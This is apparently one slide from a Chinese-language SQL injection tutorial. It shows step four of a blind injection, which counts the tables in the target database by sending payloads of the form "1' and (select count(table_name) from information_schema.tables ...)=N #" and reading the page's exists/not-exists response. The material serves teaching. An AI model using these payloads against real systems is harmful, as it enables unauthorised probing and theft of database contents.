

SQL注入漏洞

第四步：猜解数据库中表的数量
1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 #显示不存在
1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 # 显示存在

说明数据库中共有两个表。